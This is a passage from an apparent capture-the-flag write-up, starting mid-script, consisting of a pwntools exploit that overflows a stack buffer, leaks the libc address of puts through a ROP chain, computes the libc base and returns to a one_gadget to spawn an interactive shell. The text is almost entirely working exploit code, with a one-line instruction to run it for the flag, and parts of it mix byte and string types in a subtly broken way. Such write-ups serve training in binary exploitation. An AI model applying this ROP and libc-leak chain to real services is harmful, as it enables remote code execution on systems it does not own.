```python
    target.sendline(str(uf(p32(v2))))

with log.progress("Step 1: Fill the space between buffer to return address"):
    for i in range(7): # 56 / 8 = 7 iterations
        sendVal(0xdeadbeefdeadbeef)

with log.progress("Step 2: leak puts libc address"):
    sendVal(popRdi)
    sendVal(putsGot)
    sendVal(putsPlt)
    sendVal(main)

    # Send done so our code executes
    target.sendline('done')


    # Print out the target output
    print(target.recvuntil('BON VOYAGE!\n').decode('utf8'))

    
    # Scan in, filter out the libc infoleak, calculate the base
    leak = target.recv(6)
    leak = u64(leak + "\x00"*(8-len(leak)))
    libc.address = leak - libc.symbols['puts']
    log.info("libc base: " + hex(libc.address))

with log.progress("Step 3: Fill the space between buffer to return address"):
    for i in range(7): # 56 / 8 = 7 iterations
        sendVal(0xdeadbeefdeadbeef)

with log.progress("Step 4: use onegadget to get shell"):
	one_gadget = 0x4f2c5 # one_gadget libc-2.27.so
	one_gadget_address = libc.address + one_gadget
	sendVal(one_gadget_address)
	
	target.sendline('done')
	target.interactive()
```

And just run it to get the flag.